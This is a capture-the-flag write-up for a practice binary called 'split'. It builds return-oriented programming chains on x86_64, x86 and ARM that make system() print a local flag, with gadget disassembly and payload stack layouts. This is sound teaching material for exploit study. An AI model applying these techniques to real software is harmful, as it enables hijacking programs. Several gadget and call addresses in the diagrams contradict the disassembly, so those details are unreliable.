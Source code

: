 # split

Now the fun starts, i'll focus on what are the pieces i use to build ROP chains and
what is the purpose of each of those. For this challenge, like the last one, listing
symbols tells us a lot.
```bash
$ nm split
...
0000000000601060 t usefulString  # x86_64
...
0804a030 t usefulString          # x86
...
0002103c t usefulString          # ARMv5
...
```
By checking with a debugger, we can check the content of it, which is `/bin/cat flag.txt`   

On each binary, the usefulFunction is calling system, with `/bin/ls` as argument.
The goal is to replace this argument with our usefulString.

## x86_64:
```asm
000000000040074b <ret2win + 0x09>:
  40074b:	e8 10 fe ff ff   call   400560 <system@plt>

00000000004007c2 <__libc_csu_init + 0x62>:
  4007c2:	41 5f            pop    r15
  4007c4:	c3               ret    
```
The 0x5f opcode is the one for `pop rdi`, the 0x41 byte is used to extend it
to the second set of registers thus displaying a `pop r15`. We can use 0x4007e3 as a
`pop rdi` gadget.   
With all of this, we can craft our exploit and call `system("/bin/cat flag.txt")`.   
```
┌─────────────────────────┐  ┌─────────────────────────┐
│ buffer                  │  │ 20 20 20 20 20 20 20 20 │ <- padding (40 bytes)
│                         │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  │ 20 20 20 20 20 20 20 20 │
│ old_rbp                 │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  ├─────────────────────────┤
│ ret                     │  │ 0x4007c3                │ <- pop rdi; ret
├─────────────────────────┤  ├─────────────────────────┤
│ ...                     │  │ 0x601060                │ <- usefulString address
└─────────────────────────┘  ├─────────────────────────┤
                             │ 0x40074b                │ <- system call
                             └─────────────────────────┘
```
## x86:
```asm
0804864a <ret2win + 0x1e>:
 804864a:	e8 91 fd ff ff   call   80483e0 <system@plt>
```
When working with x86 binaries, arguments are passed to functions through the stack.   
This said, we just need to have the usefulString on top of the stack, then jump to the system call.
```
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (44 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old ebp     │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ ret         │  │ 0x804861a   │ <- system call
├─────────────┤  ├─────────────┤
│ ...         │  │ 0x804a030   │ <- usefulString address
└─────────────┘  └─────────────┘
```
## ARM:
```asm
00010678 <_fini + 0x04>:
   1067c:	e8bd8008 	pop	{r3, pc}

00010558 <main + 0x40>:
   10558:	e1a00003 	mov	r0, r3
   1055c:	e8bd8800 	pop	{fp, pc}

00010600 <ret2win + 0x14>:
   10600:	ebffff79 	bl	103ec <system@plt>
```
Using two gadgets, we can pop our usefulString address into r3, then move it into r0.
The rest is the same, jumping to the system call.
```
┌─────────────┐┌─────────────┐
│ buffer      ││ 20 20 20 20 │ <- padding (36 bytes)
│             ││ 20 20 20 20 │
│             ││ 20 20 20 20 │
│             ││ 20 20 20 20 │
│             ││ 20 20 20 20 │
│             ││ 20 20 20 20 │
│             ││ 20 20 20 20 │
├─────────────┤│ 20 20 20 20 │
│ old fp      ││ 20 20 20 20 │
├─────────────┤├─────────────┤
│ lr          ││ 0x103a4     │ <- pop {r3, pc}
├─────────────┤├─────────────┤
│ ...         ││ 0x2103c     │ <- usefulString address
└─────────────┘├─────────────┤
               │ 0x10558     │ <- mov r0, r3; pop {fp, pc}
               ├─────────────┤
               │ 0           │ <- dummy fp value
               ├─────────────┤
               │ 0x105e0     │ <- sytem call
               └─────────────┘
```
